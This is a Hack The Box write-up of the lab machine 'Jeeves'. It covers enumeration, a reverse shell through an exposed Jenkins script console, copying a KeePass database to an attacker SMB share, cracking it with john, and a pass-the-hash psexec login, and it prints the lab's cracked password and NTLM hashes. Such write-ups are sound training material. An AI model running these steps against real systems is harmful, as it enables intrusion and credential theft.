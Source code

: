 ```yaml
---
title: Jeeves
date: 2023-12-20 09:45:47 +07:00
modified: 2023-12-20 09:45:47 +07:00
tags: [ Jeeves, Jenkins, enum4linux-ng, Bruteforce, CTF, datastream, smb, FileTransfer, PassTheHash, Keepass, kdbx, john, hashcat, CME, Windows, OSCP, Writeup]
description: Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.
image: https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Jeeves</font>

​		11<sup>th</sup> November 2017

​		Machine Author(s): [mrb3n](https://app.hackthebox.com/users/2984)

​		

### Description:

Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.  

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.63`

`nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oA ./nmap/jeeves -Pn`

|Ports|Service
|80| msrpc Microsoft IIS httpd 10.0
|135| msrpc Microsoft Windows RPC
|445| Windows Server 2016 Standard 14393
|50000| Jetty 9.4.z-SNAPSHOT


![](https://photos.squarezero.dev/file/abir-images/Jeeves/1.png)

First I checked SMB server and there was no listing of anonymous sign-in.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/2.png)

I also ran [Enum4linux-NG](https://www.kali.org/tools/enum4linux-ng/) to make sure and it also enumarate RPC for me.



`enum4linux-ng 10.10.10.63 -A -C`


![](https://photos.squarezero.dev/file/abir-images/Jeeves/3.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/4.png)

Next, I visited port 80. It shows AskJeeves search but if something is searched on the toolbar it redirects to `/error.html?` . 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/5.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/6.png)

You can't click or select on the screen. After seeing the source code we can confirm it's just an image [jeeves.PNG]().

![](https://photos.squarezero.dev/file/abir-images/Jeeves/7.png)

Next, I visited port 50000. It gives a 404 error. 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/8.png)



# Foothold

I did a [Dirsearch]() on both ports 80 & 500000 and found `/askjeeves` .

```bash
dirsearch -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Jeeves/9.png)

After visiting the directory we are met with the Jenkins dashboard.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/10.png)

We can go to `/askjeeves/script` and find the script console. We can get a reverse shell using the following script.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/11.png)

I set up Netcat listening on my local machine and after hitting run we can get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/12.png)

I got the user.txt

![](https://photos.squarezero.dev/file/abir-images/Jeeves/13.png)

# Privilege Escalation

After looking for a bit I found `CEH.kdbx` file. This is the [Keepass](https://keepass.info/) db file.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/14.png)

I transferred the file using `impacket-smbserver`. 

Attacker Machine
`sudo impacket-smbserver share -smb2support /tmp/ -user test -password test`

Target Machine
`copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.22\share\`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/15.png)

I tried to open the file with [KeePassXC]() but it was password locked.


I extracted the password hash of the file and then brute-forced it with John().



`keepass2john CEH.kdbx >> hash.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Password → `moonshine1`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/16.png)

I used the credential to open the file and found an NTLM hash.

NTLM → `afbc5bd4b615a60648cec41c6ac92530`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/17.png)

I used [PSEXEC]() to do a [PassTheHash]() attack to get into the admin user.

`psexec.py administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/18.png)

When I went to get the flag I saw a text to find the flag elsewhere.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/19.png)

I checked for hidden files and found `hm.txt:root.txt:$DATA`.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/20.png)

This is an alternative data stream. I the flag using Get-Content .

`powershell (Get-Content hm.txt -Stream root.txt).substring(0,32)`

or `more < hm.txt:root.txt`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/21.png)